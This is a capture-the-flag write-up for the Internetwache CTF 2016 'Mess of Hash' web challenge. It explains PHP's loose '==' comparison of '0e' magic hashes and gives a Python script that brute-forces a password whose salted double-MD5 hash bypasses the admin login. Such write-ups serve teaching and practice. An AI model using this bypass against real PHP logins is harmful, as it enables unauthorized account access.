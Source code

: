 # Internetwache CTF 2016 : Mess of Hash

**Category:** Web
**Points:** 50
**Solves:** 143
**Description:**

> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...
> 
> 
> Attachment: [web50.zip](./web50.zip)
> 
> 
> Service: <https://mess-of-hash.ctf.internetwache.org/>

Sources: <https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web50/code>

## Write-up

Writeup by [unicornsasfuel](https://github.com/unicornsasfuel)

PHP is weird. No doubt about it. There are a lot of quirks.

One of PHP's quirks is that strings will be interpreted as numbers in scientific notation if they are in the right format, specifically <number>e<number>. If such a number starts with `0e`, it is effectively `0`. If two strings match these parameters and are compared through the double-equals operator (which, importantly, allows for type conversion from string to number), they will always match as they are both effectively `0`.

It is possible for a hashing algorithm to produce such a hash, though the chances are roughly one in 200 million. Through CTF challenge magic, the admin hash `0e408306536730731920197920342119` matches these conditions.

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

There are published values whose md5 sums match these conditions, but as we can see above, the hashing algorithm is custom, so we must perform our own search. Below is a Python solver script which provides us the password we need:

~~~Python
import md5
import string
import sys

def do_0e_check(inhash):
   if inhash[:2] == '0e':
      print 'hash %s begins with 0e' % inhash
      if all([char in string.digits for char in inhash[2:]]):
         return True
   return False

i = int(sys.argv[1])
answer = 0

print "Starting cracking process..."

while True:
   hashcandidate = md5.new(md5.new(str(i)).hexdigest()+'SALT').hexdigest()
   if do_0e_check(hashcandidate):
      break
   else:
      i += 1
      if i % 100000 == 0:
         sys.stdout.write("\rCurrent i value: %s" % i)
         sys.stdout.flush()

print "Answer found: md5(md5(%s)+'SALT') matches" % (i)
~~~

Logging in with username `pr0_adm1n` and the found password results in a successful login and the disclosure of the flag.

## Other write-ups and resources

* <https://forum.xeksec.com/f138/t88657/>
* <https://www.xil.se/post/internetwache-2016-web-50-simonvik/>
* <http://pastebin.com/K4xGYGMK>
